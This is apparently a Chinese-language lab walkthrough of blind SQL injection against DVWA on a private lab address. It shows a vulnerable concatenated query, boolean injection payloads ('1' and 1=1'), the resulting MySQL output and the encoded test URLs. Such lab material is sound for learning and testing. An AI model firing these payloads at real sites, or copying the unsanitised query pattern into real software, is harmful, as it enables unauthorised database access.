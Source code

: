 ```
SELECT first_name, last_name FROM users WHERE user_id = '$id'
```

sql盲注url地址

http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/


用户ID输入：

```
1' and 1=1 and '1'='1
```

实际上拼接的sql语句是：

```
SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=1 and '1'='1'
```

mysql中的查询结果是

```
mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=1 and '1'='1';
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

mysql>
```

##测试是否有注入,对比页面返回（and 1=1）

http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1%27%20and%201=1%20and%20%271%27=%271&Submit=%C8%B7%B6%A8

```
ID: 1' and 1=1 and '1'='1
First name: admin
Surname: admin
```

url解码

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1' and 1=1 and '1'='1&Submit=确定
```


##测试是否有注入,对比页面返回（and 1=2）

http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1%27%20and%201=2%20and%20%271%27=%271&Submit=%C8%B7%B6%A8

```
页面显示空白
```
